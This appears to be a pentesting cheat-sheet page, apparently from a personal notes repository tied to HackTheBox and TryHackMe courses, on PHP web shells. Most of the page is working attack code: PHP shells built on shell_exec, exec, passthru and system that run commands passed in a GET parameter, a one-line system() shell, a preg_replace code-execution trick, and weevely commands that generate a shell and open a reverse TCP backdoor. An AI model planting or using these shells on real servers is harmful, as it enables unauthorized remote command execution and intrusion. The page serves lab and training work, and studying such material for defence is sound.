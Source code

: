 # Web shell

[![shells_and_payloads](../../../_badges/htb/shells_and_payloads.svg)](https://academy.hackthebox.com/course/preview/shells--payloads)
[![fileuploadattacks](../../../_badges/htb/fileuploadattacks.svg)](https://academy.hackthebox.com/course/preview/file-upload-attacks)
[![introtoshells](../../../_badges/thmp/introtoshells.svg)](https://tryhackme.com/room/introtoshells)

<div class="row row-cols-lg-2"><div>

A web shell is a shell that is *usually* accessed from a browser. When possible, we want to use it as a foothold to move to reverse shell.

The language used in the web shell is determined by the language the target web server understand, such as PHP, JavaScript, or .NET. ✨

For JavaScript, you need to find a way for the website to execute your web shell. For PHP, visit the web shell URL.

⚠️ Password protect your webshells during assignments and/or randomize the parameter name <small>(e.g., don't use `cmd`)</small>.
</div><div>

On Kali, you can use the preinstalled web shells in `wordlists`, or install and use [SecLists webshells](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells).

```shell!
$ ls /usr/share/webshells
$ ls /usr/share/seclists/Web-Shells/
$ ls /usr/share/laudanum/ # edit and add the client (you?) IP
```

You may use the web shell to pop a [reverse shell](reverse_shell.md). Some payloads may not work smoothly according to the target configuration. Try:

```ps
bash -c "<reverse shell payload here>"
```
</div></div>

<hr class="sep-both">

## PHP web shell

<div class="row row-cols-lg-2"><div>

PHP web shells are PHP files such as `webshell.php`. Once uploaded on the target, you can execute them by browsing them with a browser.

Most web shells below are using GET to take to command to run. For instance, `[...]/webshell.php?cmd=id` to run the `id` command.

Most commands below are complex to handle redirections, multi-line results, default command, etc. You can always get by using simple payloads like `<?=system($_GET[0]??true);?>` and using `?0=whoami`.

<br>

#### shell_exec

This is a compacted web shell with `shell_exec`  ([doc](https://www.php.net/manual/en/function.shell-exec.php)).

```php!
<?="<pre>".shell_exec(($_GET['cmd'] ?? "whoami")." 2>&1")."</pre>"; ?>
```

You may replace `?=` with `?php echo ` if not supported.

<br>

#### weevely3

This is a web shell using [weevely3](https://github.com/epinna/weevely3) <small>(3.0k ⭐)</small>.

```ps
# generate a webshell.php protected by "password"
$ weevely generate <password> webshell.php
# connect to the web shell
$ weevely URL/webshell.php <password>
# see help
# ex: create a reverse shell
$ :backdoor_reversetcp IP PORT
```

<br>

#### phpbash

You can use the semi-interactive [phpbash](https://github.com/Arrexel/phpbash) <small>(0.8k ⭐, 2018 🪦)</small>.

<br>

#### wwwolf

[![shells_and_payloads](../../../_badges/htb/shells_and_payloads.svg)](https://academy.hackthebox.com/course/preview/shells--payloads)

You can use the semi-interactive [wwwolf](https://github.com/WhiteWinterWolf/wwwolf-php-webshell) <small>(0.5k ⭐, 2017 🪦)</small>.


</div><div>

#### preg_replace

[![php_preg_replace](../../../_badges/rootme/web_server/php_preg_replace.svg)](https://www.root-me.org/en/Challenges/Web-Server/PHP-preg_replace)

In PHP < 7.0.0, we could execute PHP code in `preg_replace` for each match found <small>(since PHP 5.5, there is a deprecation warning)</small>.

```php!
<?php
echo preg_replace('/a/e', 'system("whoami");', 'a');
```

<br>

#### exec

This is a web shell using `exec` ([doc](https://www.php.net/manual/en/function.exec.php))

```php!
<?php
$output = "";
exec(($_GET["cmd"] ?? "whoami")." 2>&1", $output);
echo "<pre>".implode('<br>', $output)."</pre>";
?>
```

#### passthru

This is a web shell using `passthru`  ([doc](https://www.php.net/manual/en/function.passthru.php))

```php!
echo "<pre>";
echo passthru(($_GET["cmd"] ?? "whoami")." 2>&1");
echo "</pre>";
```

#### system

This is a web shell using `system` ([doc](https://www.php.net/manual/en/function.system.php))

```php!
<?php
echo "<pre>";
echo system(($_GET["cmd"] ?? "whoami")." 2>&1");
echo "</pre>";
?>
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* [wso-webshell](https://github.com/mIcHyAmRaNe/wso-webshell)
* [jspbrowser](https://github.com/tennc/webshell/tree/master/jsp/jspbrowser)
* [webwrap](https://github.com/mxrch/webwrap)
* IBM Websphere Application Server ([article](https://wya.pl/2021/10/18/shells-and-soap-websphere-deserialization-to-rce/), system:manager war)
* Axis2 aar
</div><div>
</div></div>